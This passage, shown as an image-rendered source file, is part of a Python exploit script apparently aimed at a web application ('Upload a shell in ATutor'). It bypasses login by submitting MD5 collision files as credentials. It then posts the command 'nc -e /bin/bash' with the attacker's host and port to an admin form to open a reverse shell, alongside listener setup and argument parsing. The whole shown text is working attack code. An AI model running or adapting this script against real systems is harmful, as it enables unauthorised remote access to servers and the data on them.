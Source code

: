 ```python
        print("[-] Could not setup listener")
        return False
    finally:
        return True
        
def md5_collisions():
    try:    
        with open("f1", "rb") as f1, open("f2", "rb") as f2, open("f3", "rb") as f3:
            try:
                return (urllib.parse.quote(f1.read()), urllib.parse.quote(f2.read()), urllib.parse.quote(f3.read()))
            except:
                print("[-] Cannot encode collisions files")
                sys.exit()
    except:
        print("[-] Cannot find md5 collisions files: f1, f2, f3")
        sys.exit()
        
def login(target, proxy):
    url = geturl(target,"login")
    username, password, code = md5_collisions()
    headers= { "Content-Type" : "application/x-www-form-urlencoded"}
    data = "username={}&password={}&code={}&login=Login".format( username, password, code)
    res = requests.post(url, headers=headers, data=data, proxies=proxy, allow_redirects=False, verify=False)
    if re.search(r"Well.*done",res.text):
        print("[+] Logged in successfully")
        return res.cookies
    else:
        return None

def revshell(target, lhost, lport, cookies, proxy):
    url = geturl(target,"admin")
    data = {"command": "nc -e /bin/bash {} {}".format(lhost,lport), "submit": "Invia richiesta"}
    try:
        requests.post(url, cookies=cookies, data=data, proxies=proxy, allow_redirects=False, verify=False, timeout=2)
    except requests.exceptions.ReadTimeout:
        return True
    except:
        raise


def exploit(target, lhost, lport, proxy):
    cookies = login(target, proxy)
    if not cookies:
        print("[-] Could not login")
        sys.exit()
    if setup_listener(lport):
        try:
            revshell(target, lhost, lport, cookies, proxy)
        except:
            print("[+] Reverse shell failed to open")
        
def main():
    parser = argparse.ArgumentParser(description='Upload a shell in ATutor')
    
    parser.add_argument(
        '-H', '--lhost', required=True, type=str, help='Local Listener IP Address')
    parser.add_argument(
        '-P', '--lport', required=True, type=str, default="443", help='Local Listener Port')
    parser.add_argument(
        '-x', '--proxy', required=False, action="store_true", help='Proxy (for debugging)')
```